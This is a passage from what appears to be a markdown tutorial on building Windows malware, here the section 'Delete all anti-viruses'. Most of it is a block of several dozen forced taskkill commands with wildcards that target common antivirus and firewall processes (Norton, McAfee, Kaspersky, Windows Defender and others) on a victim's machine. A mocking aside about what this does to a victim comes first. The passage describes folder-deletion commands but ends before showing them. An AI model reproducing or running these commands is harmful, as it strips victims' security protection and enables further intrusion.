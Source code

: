  This is kind of a shitty thing to do to someone, don’t you think? Maybe you should be a white-hat and make a “virus” that [blocks intrusive ads](https://github.com/StevenBlack/hosts) and help protect your victim’s privacy.

  ## Delete all anti-viruses

  The following snippet tries to disable and delete all common anti-viruses. It’s really just a hail mary and definitely not the most appropriate way to go about this. You’ll need admin rights to run this. Below you’ll see two types of commands:

  * `taskkill`: These commands attempt to kill the running anti-virus processes. A bunch of common process names are included below. Note that we’re using the wildcard `*` in the names. This means, for example, `av*` will include all the names that begin with ‘av’. So it is possible that a whole lot of innocent process also get caught in the crossfire.
  * `RMDIR`: These commands simply delete the default installation folders of the anti-viruses.

  ```powershell
  taskkill /F /IM av* >NUL
  taskkill /F /IM fire* >NUL
  taskkill /F /IM anti* >NUL
  taskkill /F /IM spy* >NUL
  taskkill /F /IM bullguard* >NUL
  taskkill /F /IM PersFw* >NUL
  taskkill /F /IM KAV* >NUL
  taskkill /F /IM ZONEALARM* >NUL
  taskkill /F /IM SAFEWEB* >NUL
  taskkill /F /IM OUTPOST* >NUL
  taskkill /F /IM nv* >NUL
  taskkill /F /IM nav* >NUL
  taskkill /F /IM F-* >NUL
  taskkill /F /IM ESAFE* >NUL
  taskkill /F /IM cle* >NUL
  taskkill /F /IM BLACKICE* >NUL
  taskkill /F /IM def* >NUL
  taskkill /F /IM kav* >NUL
  taskkill /F /IM kav* >NUL
  taskkill /F /IM avg* >NUL
  taskkill /F /IM ash* >NUL
  taskkill /F /IM aswupdsv* >NUL
  taskkill /F /IM ewid* >NUL
  taskkill /F /IM guar* >NUL
  taskkill /F /IM gcasDt* >NUL
  taskkill /F /IM msmp* >NUL
  taskkill /F /IM mcafe* >NUL
  taskkill /F /IM mghtml* >NUL
  taskkill /F /IM msiexec* >NUL
  taskkill /F /IM outpost* >NUL
  taskkill /F /IM isafe* >NUL
  taskkill /F /IM zap* >NUL
  taskkill /F /IM zauinst* >NUL
  taskkill /F /IM upd* >NUL
  taskkill /F /IM zlclien* >NUL
  taskkill /F /IM minilog* >NUL
  taskkill /F /IM norton* >NUL
  taskkill /F /IM ccc* >NUL
  taskkill /F /IM npfmn* >NUL
  taskkill /F /IM loge* >NUL
  taskkill /F /IM nisum* >NUL
  taskkill /F /IM issvc* >NUL
  taskkill /F /IM tmp* >NUL
  taskkill /F /IM tmn* >NUL
  taskkill /F /IM pcc* >NUL
  taskkill /F /IM cpd* >NUL
  taskkill /F /IM pop* >NUL
  ```